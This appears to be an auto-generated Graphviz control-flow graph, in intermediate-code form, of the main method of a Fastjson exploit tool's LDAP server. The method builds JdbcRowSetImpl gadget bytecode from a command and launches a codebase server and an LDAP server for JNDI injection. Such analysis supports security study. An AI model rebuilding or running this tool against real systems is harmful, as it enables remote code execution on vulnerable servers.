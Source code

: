 digraph "unitGraph" {
    "Block 0:
[preds: ] [succs: 1 2 ]
r0 := @parameter0: java.lang.String[];
$i0 = lengthof r0;
if $i0 == 3 goto $r1 = r0[2];
"
    "Block 1:
[preds: 0 ] [succs: 2 ]
$r8 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(\"Usage: java -cp FastjsonExploit-<version>.jar server.LDAPServer ldap_host ldap_port [cmd/code]\");
staticinvoke <java.lang.System: void exit(int)>(0);
"
    "Block 2:
[preds: 0 1 ] [succs: ]
$r1 = r0[2];
$r2 = staticinvoke <gadget.Gadget: byte[] getJdbcRowSetImplExpCode(java.lang.String)>($r1);
<util.Common: byte[] byteCode> = $r2;
r3 = r0[0];
$r4 = r0[1];
$r5 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(java.lang.String)>($r4);
i1 = virtualinvoke $r5.<java.lang.Integer: int intValue()>();
i2 = staticinvoke <util.Util: int getUnusePort(java.lang.String)>(r3);
staticinvoke <server.CodebaseServer: void lanuchCodebaseURLServer(java.lang.String,int)>(r3, i2);
$r6 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i1);
$r7 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i2);
staticinvoke <server.LDAPServer: void lanuchLDAPServer(java.lang.Integer,java.lang.String,java.lang.Integer)>($r6, r3, $r7);
return;
"
    "Block 0:
[preds: ] [succs: 1 2 ]
r0 := @parameter0: java.lang.String[];
$i0 = lengthof r0;
if $i0 == 3 goto $r1 = r0[2];
"->"Block 1:
[preds: 0 ] [succs: 2 ]
$r8 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(\"Usage: java -cp FastjsonExploit-<version>.jar server.LDAPServer ldap_host ldap_port [cmd/code]\");
staticinvoke <java.lang.System: void exit(int)>(0);
";
    "Block 0:
[preds: ] [succs: 1 2 ]
r0 := @parameter0: java.lang.String[];
$i0 = lengthof r0;
if $i0 == 3 goto $r1 = r0[2];
"->"Block 2:
[preds: 0 1 ] [succs: ]
$r1 = r0[2];
$r2 = staticinvoke <gadget.Gadget: byte[] getJdbcRowSetImplExpCode(java.lang.String)>($r1);
<util.Common: byte[] byteCode> = $r2;
r3 = r0[0];
$r4 = r0[1];
$r5 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(java.lang.String)>($r4);
i1 = virtualinvoke $r5.<java.lang.Integer: int intValue()>();
i2 = staticinvoke <util.Util: int getUnusePort(java.lang.String)>(r3);
staticinvoke <server.CodebaseServer: void lanuchCodebaseURLServer(java.lang.String,int)>(r3, i2);
$r6 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i1);
$r7 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i2);
staticinvoke <server.LDAPServer: void lanuchLDAPServer(java.lang.Integer,java.lang.String,java.lang.Integer)>($r6, r3, $r7);
return;
";
    "Block 1:
[preds: 0 ] [succs: 2 ]
$r8 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(\"Usage: java -cp FastjsonExploit-<version>.jar server.LDAPServer ldap_host ldap_port [cmd/code]\");
staticinvoke <java.lang.System: void exit(int)>(0);
"->"Block 2:
[preds: 0 1 ] [succs: ]
$r1 = r0[2];
$r2 = staticinvoke <gadget.Gadget: byte[] getJdbcRowSetImplExpCode(java.lang.String)>($r1);
<util.Common: byte[] byteCode> = $r2;
r3 = r0[0];
$r4 = r0[1];
$r5 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(java.lang.String)>($r4);
i1 = virtualinvoke $r5.<java.lang.Integer: int intValue()>();
i2 = staticinvoke <util.Util: int getUnusePort(java.lang.String)>(r3);
staticinvoke <server.CodebaseServer: void lanuchCodebaseURLServer(java.lang.String,int)>(r3, i2);
$r6 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i1);
$r7 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i2);
staticinvoke <server.LDAPServer: void lanuchLDAPServer(java.lang.Integer,java.lang.String,java.lang.Integer)>($r6, r3, $r7);
return;
";
}
